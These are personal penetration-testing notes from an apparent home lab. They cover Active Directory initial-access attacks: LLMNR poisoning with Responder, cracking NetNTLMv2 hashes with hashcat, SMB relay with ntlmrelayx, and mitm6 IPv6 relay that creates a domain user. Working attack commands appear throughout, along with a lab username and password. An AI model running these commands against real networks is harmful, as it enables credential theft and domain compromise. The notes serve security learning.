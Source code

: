 **1 Netbios && LLMNR Name Poisoning**
**2 Relay Attacks**
**3 MITM6**
**4 MS17-010**
**5 Kerberoasting**

---

**1. LLMNR (link local multicasting name resolution:: basically DNS) Poisoning:**

- needs traffic - ideal before nmap/nessus scans
- responder:

  `python /usr/share/responder/Responder.py -L eth0 -rdwv`

  a) try to access attacker IP address::\ ![llmnr_poison](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\admin_malz_llmnr_poison.png)

  `hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt # --m 5600 module for NetNTLMv2`

---

**2. SMB Relay attacks:**

- Requirements: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
- setup ntlmrelay::

![ntlmrelay.py](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\ntlmrelay_py.png)

- a) Find machines w/ smb enabled: Nessus or Nmap:

`/opt/impacket/examples/$ python3 ntlmrelayx.py -tf targets.txt -smb2support (-i) #python3 -m pip install . ## -i interactive`

- Working but keeps failing::\ ![revmalz](Screenshots/revshell_smb_malz.png)
  &&  ![break](Screenshots/malz_smb_breaking.png)
- shells W/ creds:: ![shells](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\meterpreter_psexec_shells.png)
- ***wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy***

---

**3. Pv6 Attacks: DNS relay:**

*Requirements, must have certificate in DC: manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs*

Setup relay && ipv6 spoofing:

a. `/opt/mitm6/mitm6$ sudo python3 mitm6.py -d carbon.local #(DC) `
b. `/opt/impacket-0.9.19/examples$ sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme`
c. `xdg-open /opt/impacket-0.9.19/examples/lootme/domain_users_by_group.html`

![IPv6_relay](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\relay_ipv6.png)


This Process also creates a user::

![User_created](E:\Users\Carl\Documents\Notes\Ethical\Screenshots/NewACLUsercreated.png))

Created user via DC::

  `UN:PW:: FRjPVCfXyd:#xiRqvp5i6k2-gG #DC` && `file:: aclpwn-20211220-125747.restore #attack machine`

![user_proof_DC](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\DC_new_user.png)

![NU&PW_attackmachine](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\new_user_and_pw.png)

![ACL_restore_file_attackmachine](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\ACL_restore.png)

**How to mitigate this attack:**

![mitigate_IPV6](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\IPV6_mitigate.png) [^1]
[^1] `https://academy.tcm-sec.com/courses/1152300/lectures/24780877`

---

**4. MS17-010:**
TODO:

---

[tutorial] (https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
[PW list] (https://github.com/danielmiessler/SecLists/tree/master/Passwords)
[impacket] (https://github.com/SecureAuthCorp/impacket)
[mitm6] (https://github.com/dirkjanm/mitm6)
[NTLM Relay W/ Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

### Attacking Active Directory: Initial Attack Vectors
